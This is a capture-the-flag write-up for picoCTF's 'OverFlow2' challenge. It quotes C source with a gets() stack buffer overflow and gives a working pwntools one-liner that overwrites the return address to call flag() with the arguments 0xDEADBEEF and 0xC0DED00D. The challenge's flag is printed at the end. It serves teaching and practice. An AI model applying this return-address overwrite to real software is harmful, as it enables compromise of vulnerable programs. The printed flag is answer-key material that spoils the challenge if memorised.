

# OverFlow2

Points : 

# Question

Now try overwriting arguments. Can you get the flag from this [program](vuln)? 
You can find it in /problems/overflow-2_1_210f23786438d7f7e527f4901367a74b on the shell server. [Source](vuln.c).


# Hint 

GDB can print the stack after you send arguments

# Solution

Looking the the source code we can see that :

```

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {	<------------ function that print the flag
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)				/
    return;						/
  if (arg2 != 0xC0DED00D)				/  <-----------if (arg1 != 0xDEADBEEF) or (arg2 != 0xC0DED00D) we will never print the flag
    return;						/
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];					<---------- create new buffer size 176
  gets(buf);						<---------- gets take the input from user (vulnerable for overflow)
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}

```

So , like the others overflow challanges we need to override the return address to "flag" starting address in addition this time we also need to pass arguments 
such that arg1=0xDEADBEEF and arg2 = 0xC0DED00D .
this how our payload need to look like :
```
print "a"*(BUFFER_SIZE+EBP_AND_MORE_STUFF)+FLAG_ADDRESS+PADDING+ARG1+ARG2
``` 
```
```
python -c "from pwn import *; print 'a'*(176+12)+p32(0x080485e6)+'a'*4+p32(0xDEADBEEF)+p32(0xC0DED00D)" | ./vuln 
```



# Flag
picoCTF{arg5_and_r3turn5001d1db0}

